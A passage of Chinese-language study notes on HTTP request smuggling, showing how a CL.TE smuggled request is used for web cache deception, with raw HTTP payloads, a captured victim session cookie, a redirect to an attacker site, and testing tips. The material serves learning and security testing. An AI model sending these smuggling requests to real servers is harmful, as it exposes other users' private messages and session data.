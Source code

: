  ```http

  HTTP/1.1 301 Moved Permanently
  Location: https://attacker-website.com/home/
  ```
- 在另一种攻击变体中，您可以利用 HTTP 请求走私来执行 Web 缓存欺骗。这与 Web 缓存中毒攻击的工作方式类似，但目的不同。
  - Web缓存中毒和Web缓存欺骗有什么区别？ 在 Web 缓存中毒中，攻击者使应用程序在缓存中存储一​​些恶意内容，并将这些内容从缓存中提供给其他应用程序用户。 
  - 在网络缓存欺骗中，攻击者使应用程序将属于另一个用户的一些敏感内容存储在缓存中，然后攻击者从缓存中检索这些内容。
  - 在此变体中，攻击者走私一个请求，该请求返回一些敏感的用户特定内容。例如
  ```http
  POST / HTTP/1.1
  Host: vulnerable-website.com
  Content-Length: 43
  Transfer-Encoding: chunked

  0

  GET /private/messages HTTP/1.1
  Foo: X
  ```
  - 来自另一个用户的下一个转发到后端服务器的请求将附加到走私的请求中，包括会话 cookie 和其他标头。例如：
  ```http
  GET /private/messages HTTP/1.1
  Foo: XGET /static/some-image.png HTTP/1.1
  Host: vulnerable-website.com
  Cookie: sessionId=q1jn30m6mqa7nbwsa0bhmbr7ln2vmh7z
  ...
  ```  
  - 后端服务器以正常方式响应此请求。请求中的 URL 用于用户的私人消息，并且请求是在受害者用户会话的上下文中处理的。前端服务器根据它认为是第二个请求中的 URL（即 /static/some-image.png）缓存此响应
  ```http
  GET /static/some-image.png HTTP/1.1
  Host: vulnerable-website.com

  HTTP/1.1 200 Ok
  ...
  <h1>Your private messages</h1>
  ...
  ```
  - 然后攻击者访问静态 URL 并接收从缓存返回的敏感内容。 这里的一个重要警告是，攻击者不知道将缓存敏感内容的 URL，因为这将是受害者用户在走私请求生效时碰巧请求的任何 URL。攻击者可能需要获取大量静态 URL 才能发现捕获的内容。

# http请求走私的两个视角
- 似乎使用Connection: close或Connection: keep-alive是否会对上述效果产生影响，实际测试过程中最好分别进行测试

- 请求发送到前端服务器，前端服务器将请求视为整体，传输给后端，后端将部分请求视为整体进行处理，导致另一部分存在于缓存中，并被拼接到下一个请求的首部
  - 该视角下的CL.TE的实例中，有的使用Connection: keep-alive 有的使用Connection: close 所以在实际测试过程中，可以两个请求头分别尝试
  - 示例1，使用Connection: keep-alive